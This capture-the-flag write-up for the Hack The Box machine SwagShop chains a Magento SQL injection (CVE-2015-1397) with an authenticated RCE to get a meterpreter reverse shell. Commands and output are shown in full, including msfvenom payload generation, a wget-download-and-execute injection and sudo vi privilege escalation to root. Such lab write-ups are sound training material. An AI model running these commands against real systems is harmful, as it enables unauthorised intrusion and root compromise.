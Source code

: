 # Target
| Category      | Details                                                  |
|---------------|----------------------------------------------------------|
| 📝 Name       | [SwagShop](https://app.hackthebox.com/machines/SwagShop) |
| 🏷 Type       | HTB Machine                                              |
| 🖥️ OS        | Linux                                                    |
| 🎯 Difficulty | Easy                                                     |

# Scan
```
┌──(magicrc㉿perun)-[~/attack/HTB SwagShop]
└─$ nmap -sS -sC -sV $TARGET
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-19 13:10 CEST
Nmap scan report for 10.129.229.138
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.71 seconds
```

`nmap` detected `swagshop.htb` virtual host. Let's add it to `/etc/hosts` and re-scan.
```
┌──(magicrc㉿perun)-[~/attack/HTB SwagShop]
└─$ echo "$TARGET swagshop.htb" | sudo tee -a /etc/hosts
10.129.229.138 swagshop.htb
```

```
┌──(magicrc㉿perun)-[~/attack/HTB SwagShop]
└─$ nmap -sS -sC -sV -p80 swagshop.htb                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-19 13:13 CEST
Nmap scan report for swagshop.htb (10.129.229.138)
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home page

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
```

# Foothold
We can see that `nmap` has found two remote services running on the target, with HTTP being quite obvious vector of attack. Brief browsing shows that Magento is running on web server. In the page footer we can see `© 2014 Magento Demo Store. All Rights Reserved.` With quick Google search we could find [history](https://www.mgt-commerce.com/blog/magento-versions-history/) of Magento releases, and it shows that Magento CE 1.9.x has been released in 2014. Additionally to that with `ffuf` we were able to find list of packages (under http://swagshop.htb/var/package/) which also shows 1.9.0.0.

With little bit of Googling we can find that this version is vulnerable to Post (admin) Authenticated RCE and [exploit](https://github.com/Hackhoven/Magento-RCE) is available. What we need now are admin credentials, and here with help comes [CVE-2015-1397](https://nvd.nist.gov/vuln/detail/CVE-2015-1397). We could use this SQL injection vulnerability to create admin account. There is [exploit](https://www.exploit-db.com/exploits/37977) that we could use, however as it is quite old, it needs a couple of fixes. Refreshed version could be found [here](CVE-2015-1397.py). We will use this chain to get `meterpreter` based reverse shell.

Let's start with running Metasploit `multi/handler` with `linux/x64/meterpreter/reverse_tcp` payload.
```
┌──(magicrc㉿perun)-[~/attack/HTB SwagShop]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.106:4444
```

Next we will generate reverse shell binary and expose it over HTTP.
```
┌──(magicrc㉿perun)-[~/attack/HTB SwagShop]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And finally we will execute exploit chain to download and execute our binary. 
```
┌──(magicrc㉿perun)-[~/attack/HTB SwagShop]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
python3 ./CVE-2015-1397.py && \
git clone https://github.com/Hackhoven/Magento-RCE.git && \
sed -i "s/^username = 'PUT_YOUR_CRED_HERE'.*/username = 'user'/" Magento-RCE/magento-rce-exploit.py && \
sed -i "s/^password = 'PUT_YOUR_CRED_HERE'.*/password = 'pass'/" Magento-RCE/magento-rce-exploit.py && \
python3 Magento-RCE/magento-rce-exploit.py http://swagshop.htb/index.php/admin "wget -P /tmp http://$LHOST:8000/shell;chmod +x /tmp/shell;/tmp/shell"
[✔] Injecting admin credentials...
[✔] [user:pass] injected
[✔] Use [http://swagshop.htb/index.php/admin] to login
Cloning into 'Magento-RCE'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 5.06 KiB | 5.06 MiB/s, done.
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
```

After a while we should get reverse connection back to `meterpreter`.
```
[*] Sending stage (3045380 bytes) to 10.129.229.138
[*] Meterpreter session 1 opened (10.10.14.106:4444 -> 10.129.229.138:58176) at 2025-04-20 10:30:15 +0200

meterpreter > getuid
Server username: www-data
```

We were able to gain foothold with `www-data` and additionally to that with its privileges we can access user flag. Let's grab it and proceed to escalation.
```
meterpreter > ls -la /home/haris/user.txt
100644/rw-r--r--  33  fil  2025-04-20 13:44:33 +0200  /home/haris/user.txt
```

# Privileges escalation
We will start escalation with dropping to shell and stabilizing it.
```
meterpreter > shell
Process 22638 created.
Channel 375 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@swagshop:/tmp$
```

Next step will be `sudo -l`, which actually yields very interesting result.
```
www-data@swagshop:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

With very powerful `(root) NOPASSWD: /usr/bin/vi /var/www/html/*` we can:
- Due to `*` at the end of the command we could traverse to any file and read it as root, e.g. `sudo /usr/bin/vi /var/www/html/../../../root/root.txt`. We could also read `/etc/shadow` or add root-shell spawn to `/etc/crontab`.
- Spawn root-shell from within `vi`
  - Open any file, e.g. `sudo /usr/bin/vi /var/www/html/api.php`
  - In `vi` set shell `:set shell=/bin/sh` and run with `:shell`